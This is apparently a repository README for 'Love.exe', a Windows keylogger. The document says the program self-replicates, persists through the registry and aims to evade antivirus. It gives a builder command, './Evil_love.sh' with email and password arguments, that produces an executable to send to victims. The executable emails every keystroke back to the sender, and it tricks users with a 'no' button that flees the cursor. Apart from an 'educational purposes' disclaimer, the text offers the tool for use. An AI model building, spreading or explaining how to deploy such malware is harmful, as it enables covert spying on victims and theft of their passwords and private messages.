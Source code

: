 
# Love.exe

-  !! I am not responsible for the misuse of Love.exe, I did it for educational purposes ¡¡

	![[Pasted image imagenes/icon.png]]

- Love is a keylogger virus that self-replicates in the system and implants itself in the registry to resume its operation when the computer is turned on. The idea in the future is to become invisible to the Windows antivirus. Thanks to Evil_love.sh we can configure this file of raw love and prepare it to be sent.

	![[Pasted image imagenes/20231119200113.png]]

- so...

		./Evil_love.sh emitter_example@gmail.com receiver_example@gmail.com passwordexampple$

	![[Pasted image imagenes/20231119195552.png]]

- The result here is that the .exe file was created ready to be sent, when the keylogger is working you will receive a text file with all the victim's keystrokes in the email that you set as the recipient, something similar to this:

	![[Pasted image imagenes/20231119212058.png]]

- When you start Love.exe for the first time, the following window appears whose "no" button is impossible to press since it escapes the cursor. When you press "yes" the keylogger starts, this window is only shown the first time the virus starts , after that it is not shown again:

	![[Pasted image imagenes/20231119212545.png]]

